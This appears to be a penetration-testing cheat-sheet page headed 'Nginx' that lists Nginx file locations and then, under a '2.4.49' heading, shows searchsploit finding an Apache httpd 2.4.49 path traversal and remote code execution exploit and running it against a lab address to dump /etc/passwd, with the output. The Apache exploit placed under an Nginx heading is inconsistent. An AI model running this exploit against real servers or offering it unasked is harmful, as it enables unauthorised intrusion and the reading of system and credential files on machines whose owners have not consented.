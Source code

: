 # Nginx

## Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>/usr/share/nginx/html/</code></td></tr><tr><td><strong>Config</strong></td><td><code>/etc/nginx/nginx.conf</code></td></tr><tr><td><strong>Logs</strong></td><td><code>/var/log/nginx/</code></td></tr></tbody></table>

## Versions

### 2.4.49

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}
